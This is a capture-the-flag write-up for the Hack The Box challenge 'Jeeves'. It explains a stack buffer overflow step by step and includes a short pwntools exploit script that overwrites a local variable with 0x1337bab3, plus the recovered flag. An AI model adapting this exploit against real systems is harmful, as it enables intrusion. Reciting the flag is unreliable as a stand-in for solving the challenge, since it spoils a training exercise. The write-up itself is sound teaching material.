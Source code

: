 # Jeeves
> Write-up author: jon-brandy
## DESCRIPTION:
How are you doing, sir?
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209353724-037d0521-31f6-4b64-8b90-1ab691d4ce64.png)


2. Now check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209353779-5395467e-52a7-4de3-92db-9b63fd8a992e.png)


3. Now, we know it's a binary file.
4. Let's check the binary's protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209353854-cccbe427-5fe0-4cd1-afa4-b7463e3fa4d1.png)


5. Based on it, we know that we can do bufferoverflow concept.
6. Anyway let's run chmod so we can execute the binary file. Then execute the file.
7. Run the file in gdb, and paste 1024 cyclic pattern as the input.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209354390-9bdf1805-d3a1-4b52-b4f3-f0b193e32f4f.png)


8. Got segmentation fault, now copy all characters from RBP.

![image](https://user-images.githubusercontent.com/70703371/209354570-ead7a0fe-c371-44d0-995a-4c9214cf4186.png)


9. And check the correct bytes to overflow the buffer by run `cylic -l`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209354843-ee59fa72-e273-4ac3-a51a-9b301354bddf.png)


10. Great! Now we know the correct bytes to overflow the buffer is 64 bytes, so we need to add 60 padding bytes.
11. Now let's decompile the file using ghidra and check the `main()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209355234-655d33ae-f4ff-48c7-a2b0-2bfc70c9e82e.png)


12. Based from the `main()` function, we need to overwrite the `local_c` values so to **0x1337bab3** so we can get the flag.
13. To solve this we can convert the hex in little-endian format -> \xb3\xba\x37\x13.
14. Then add them after the 60 bytes.
15. For this solution, i made a python script using pwntools.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
#sh = remote('68.183.47.198',31162) #68.183.47.198:31162
sh = process("nc")
sh.sendline("68.183.47.198 31162")
p = b'A' * 60
p += p64(322419379) # 0x1337bab3
#sh.recvuntil("? ")
sh.sendline(p)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209359846-75879f05-0888-475d-aeb6-0c2d07325684.png)


16. Got the flag!

## FLAG

```
HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}
```

